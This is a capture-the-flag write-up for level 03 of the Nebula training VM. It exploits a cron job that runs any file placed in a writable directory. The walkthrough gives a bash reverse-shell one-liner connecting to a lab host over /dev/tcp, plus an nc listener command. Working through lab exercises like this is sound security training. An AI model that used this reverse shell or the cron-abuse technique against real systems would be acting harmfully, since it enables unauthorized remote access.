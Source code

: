 # Level 03 - Nebula

```
Check the home directory of flag03 and take note of the files there.

There is a crontab that is called every couple of minutes.

To do this level, log in as the level03 account with the password level03. Files for this level can be found in /home/flag03.
```



Inside of the directory, we find the writable.d directory and writable.sh. writable.sh (whats being executed by the "crontab") contains:

```bash
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

This program loops through the files in the writable.d directory and executes and then deletes them if they're executable. This gives us an immediate path to code execution and we can just throw whatever bash we want in that directory.

I used [this website](https://www.revshells.com/) to generate this bash reverse shell (I'm using a [local network](https://sp1icersec.wordpress.com/2018/09/07/exploit-exercises-nebula-setup/)):

```bash
sh -i >& /dev/tcp/192.168.56.101/4444 0>&1
```

and I used this listener on my Kali machine:

```bash
nc -lvnp 4444
```

![](assets/level03/flag.png)
